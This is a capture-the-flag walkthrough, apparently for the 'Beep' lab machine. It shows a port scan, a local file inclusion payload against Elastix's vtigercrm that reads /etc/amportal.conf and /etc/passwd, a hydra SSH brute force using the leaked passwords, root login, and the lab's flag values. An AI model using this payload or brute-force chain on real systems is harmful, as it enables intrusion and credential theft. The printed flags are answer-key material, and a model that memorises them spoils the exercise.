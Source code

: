 # beep

### there are several ports open and many routes to proceed with an attack
```
Discovered open port 22/tcp on 10.10.10.7
Discovered open port 80/tcp on 10.10.10.7
Discovered open port 110/tcp on 10.10.10.7
Discovered open port 993/tcp on 10.10.10.7
Discovered open port 443/tcp on 10.10.10.7
Discovered open port 25/tcp on 10.10.10.7
Discovered open port 3306/tcp on 10.10.10.7
Discovered open port 111/tcp on 10.10.10.7
Discovered open port 995/tcp on 10.10.10.7
Discovered open port 143/tcp on 10.10.10.7
Discovered open port 4445/tcp on 10.10.10.7
Discovered open port 10000/tcp on 10.10.10.7
```

### at 10.10.10.7:80 there's a login page for an elastix service
```
using  searchsploit to look for it we find an exploit for LFI
php/webapps/37637.pl
```


### with the following payload
```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
###### this payload lead us to something that looks like user passwds
```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
#FOPPASSWORD=passw0rd
```

### modifying the payload we get the passwd file, removing from it uninteresting answers we have a list of users
```
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

### with both a list of users and passwds, we can use hydra to bruteforce ssh
```
hydra -L users -P passwds ssh://10.10.10.7
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries (l:6/p:11), ~5 tries per task
[DATA] attacking ssh://10.10.10.7:22/
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
1 of 1 target successfully completed, 2 valid passwords found
```
### and just like that, we have root access to the machine
```
there's a need to deal with a cipher when login in, so when trying to ssh you should first specify the encryption type
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc root@10.10.10.7
```

```
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password:
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# cd /root
[root@beep ~]# ls
anaconda-ks.cfg  elastix-pr-2.2-1.i386.rpm  install.log  install.log.syslog  postnochroot  root.txt  webmin-1.570-1.noarch.rpm
[root@beep ~]# cat root.txt
0b15df1a17494f0dd88edbf16f85ff35
[root@beep ~]# cat $(find / -type f -name "user.txt" 2>/dev/null)
b70141eb0ced632be801780cd9151d40
```

